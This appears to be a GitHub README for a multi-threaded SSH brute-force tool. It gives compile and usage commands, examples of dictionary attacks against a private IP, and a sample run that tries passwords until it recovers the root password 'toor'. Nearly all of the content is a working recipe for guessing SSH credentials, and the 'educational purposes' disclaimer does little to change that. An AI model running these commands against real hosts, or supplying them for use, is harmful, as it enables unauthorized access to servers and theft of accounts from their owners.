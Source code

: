 # SSH Brute Forcer

A simple, multi-threaded SSH brute force tool designed for basic brute forcing and dictionary-based attacks.

## Features

- **Multi-Threading**:
  - Utilizes multiple threads to attempt concurrent connections, potentially increasing speed.
  - Be cautious: Creating an excessive number of threads (e.g., 1000) can overwhelm the system. This feature is primarily for demonstration purposes and should be used with care.

- **Standard Brute Forcing**:
  - Tests random strings of varying lengths, which is generally inefficient and not recommended for serious use.

- **Dictionary-Based Attacks**:
  - Supports using a list of passwords from a file for more targeted attacks.

## Compile

```
	$ cc -o ssh-brute-forcer ssh-brute-forcer.c -I/usr/local/include -L/usr/local/lib -lssh -pthread -Wno-discarded-qualifiers -Wno-incompatible-pointer-types-discards-qualifiers -Wno-unknown-warning-option
```

## Usage

```
$ ./ssh-brute-forcer -h <hostname> -p <port> [-u <username>] [-p <password> | -P <password_list>] [-t <thread_count>] [-V]
```
Parameters

    -h <hostname>: The SSH server’s hostname or IP address.
    -p <port>: The SSH port (default is 22).
    -u <username>: Specific username to test.
    -p <password>: Specific password to test.
    -P <password_list>: Path to a file with a list of passwords.
    -t <thread_count>: Number of threads for concurrent testing (default is 4).
    -V: Verbose mode to display attempted passwords.

Example Commands

    Test a Single Username and Password:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -p mypassword -t 10 -V
```

This command tests the provided username and password using 10 threads and displays the attempted passwords.

Dictionary-Based Attack with a Username and Password List:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -P pass.list -t 10 -V

```

    This command tests the specified username with all passwords from pass.list using 10 threads, showing attempted passwords.

Note

The brute force method of trying random strings is highly inefficient and not suitable for practical use. Additionally, using a large number of threads can significantly impact system performance and stability. This tool is intended primarily for educational purposes and should be used responsibly.

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 777 -u root  -P pass.list -t 10 -V  
Attempting - Username: root, Password: asd
Attempting - Username: root, Password: sdf
Attempting - Username: root, Password: dg
Attempting - Username: root, Password: asdfasdfsad
Attempting - Username: root, Password: f
Attempting - Username: root, Password: ga
Attempting - Username: root, Password: sadf
Attempting - Username: root, Password: asdfa
Attempting - Username: root, Password: sdf
Attempting - Username: root, Password: asdfg
Attempting - Username: root, Password: f
Attempting - Username: root, Password: dsf
Attempting - Username: root, Password: asdf
Attempting - Username: root, Password: df
Attempting - Username: root, Password: sad
Attempting - Username: root, Password: as
Attempting - Username: root, Password: asdf
Attempting - Username: root, Password: asdasdf
Attempting - Username: root, Password: fasdgafadf
Attempting - Username: root, Password: asd
Attempting - Username: root, Password: toor
Credentials found - Username: root, Password: toor
```

